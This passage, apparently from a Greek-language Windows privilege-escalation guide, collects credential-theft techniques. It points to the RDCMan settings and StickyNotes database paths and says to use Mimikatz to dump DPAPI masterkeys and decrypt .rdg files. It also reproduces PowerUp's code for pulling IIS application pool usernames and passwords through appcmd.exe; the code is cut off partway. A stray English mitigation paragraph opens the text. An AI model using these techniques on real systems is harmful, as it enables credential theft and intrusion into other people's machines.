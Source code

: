 To mitigate this risk, it is recommended to regularly review and delete any unnecessary or outdated credentials stored in the Remote Desktop Credential Manager. Additionally, users should enable strong password policies and consider using multi-factor authentication for remote desktop connections.

For more information on how to manage and secure remote desktop credentials, refer to the official Microsoft documentation.
```
%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
```
Χρησιμοποιήστε το **Mimikatz** `dpapi::rdg` module με το κατάλληλο `/masterkey` για να **αποκρυπτογραφήσετε οποιοδήποτε αρχείο .rdg**\
Μπορείτε να **εξάγετε πολλά masterkeys DPAPI** από τη μνήμη με το Mimikatz `sekurlsa::dpapi` module

### Επικολλημένες Σημειώσεις

Οι άνθρωποι συχνά χρησιμοποιούν την εφαρμογή StickyNotes στους υπολογιστές με Windows για να **αποθηκεύουν κωδικούς πρόσβασης** και άλλες πληροφορίες, χωρίς να αντιλαμβάνονται ότι είναι ένα αρχείο βάσης δεδομένων. Αυτό το αρχείο βρίσκεται στη διαδρομή `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite` και αξίζει πάντα να το αναζητάτε και να το εξετάζετε.

### AppCmd.exe

**Σημείωση ότι για να ανακτήσετε κωδικούς πρόσβασης από το AppCmd.exe πρέπει να είστε Διαχειριστής και να εκτελείτε με υψηλό επίπεδο ακεραιότητας.**\
Το **AppCmd.exe** βρίσκεται στον φάκελο `%systemroot%\system32\inetsrv\`.\
Αν αυτό το αρχείο υπάρχει, τότε είναι πιθανό να έχουν διαμορφωθεί κάποια **διαπιστευτήρια** και μπορούν να **ανακτηθούν**.

Αυτός ο κώδικας εξήχθη από το [**PowerUP**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1):
```bash
function Get-ApplicationHost {
$OrigError = $ErrorActionPreference
$ErrorActionPreference = "SilentlyContinue"

# Check if appcmd.exe exists
if (Test-Path  ("$Env:SystemRoot\System32\inetsrv\appcmd.exe")) {
# Create data table to house results
$DataTable = New-Object System.Data.DataTable

# Create and name columns in the data table
$Null = $DataTable.Columns.Add("user")
$Null = $DataTable.Columns.Add("pass")
$Null = $DataTable.Columns.Add("type")
$Null = $DataTable.Columns.Add("vdir")
$Null = $DataTable.Columns.Add("apppool")

# Get list of application pools
Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppools /text:name" | ForEach-Object {

# Get application pool name
$PoolName = $_

# Get username
$PoolUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.username"
$PoolUser = Invoke-Expression $PoolUserCmd

# Get password
$PoolPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.password"
$PoolPassword = Invoke-Expression $PoolPasswordCmd

```